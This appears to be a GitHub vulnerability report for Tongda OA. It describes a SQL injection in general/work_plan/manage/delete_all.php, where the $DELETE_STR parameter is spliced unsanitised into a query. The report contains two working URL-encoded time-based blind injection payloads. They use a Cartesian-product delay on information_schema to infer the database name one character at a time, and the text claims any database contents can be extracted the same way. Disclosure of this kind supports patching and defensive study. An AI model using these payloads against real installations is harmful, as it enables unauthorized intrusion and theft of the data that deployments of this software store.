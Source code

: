 SQL injection vulnerability exists in Tongda OA

Route: general/work_plan/manage/delete_all.php

There is an injected parameter: $DELETE_STR

The code here is very concise. When $DELETE_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/willchen0011/cve/assets/13689053/2c80fee9-a175-4abe-afbe-bd108ea969a0)

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/willchen0011/cve/assets/13689053/0e8af1ca-b53a-482c-945a-58a853f39192)

And when we change 116 to 115, there is no delay here, indicating that there is SQL injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/willchen0011/cve/assets/13689053/5ec2fa8f-8778-4c3f-bbba-9f9ef74ef806)


